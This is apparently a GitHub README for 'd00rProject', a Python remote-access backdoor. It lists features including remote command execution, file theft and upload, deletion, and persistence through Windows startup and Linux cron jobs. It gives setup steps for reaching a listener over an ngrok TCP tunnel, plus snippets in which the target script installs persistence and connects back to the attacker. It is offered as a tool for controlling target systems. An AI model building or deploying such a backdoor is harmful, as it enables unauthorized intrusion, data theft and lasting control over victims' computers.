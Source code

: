 # RCE backdoor

This backdoor written in Python allows you to control a target system remotely. The backdoor provides various commands for executing system commands, navigating the file system, and managing files. It also has a persistence mechanism in case the target PC gets turned off.

## Features

- Remote execution of system commands
- Changing the working directory
- Listing files and directories
- Downloading files from the target system
- Uploading files to the target system
- Deleting files and directories
- Persistence (Windows startup and Linux cron job)

## Usage (get_shell.py)

d00rProject works outside your local network, to do so you can set up a tunnel using Ngrok's TCP feature. Follow these steps:

1. Download and install Ngrok from [https://ngrok.com/download](https://ngrok.com/download).

2. In a terminal, navigate to the directory where Ngrok is installed and run the following command to create a TCP tunnel:

```bash
ngrok tcp 1337
```
Then copy paste the tunnel address ngrok generated into get_shell.py

```python
def main():
    target = "HOST"
    port = 1337
    my_backdoor = Backdoor(target, port)
    persistence()
    my_backdoor.run()
````
## Usage (listener.py)

Set the correct port in the listener and execute.
````python
my_listener = Listener("0.0.0.0", 1337)

my_listener.run()
````
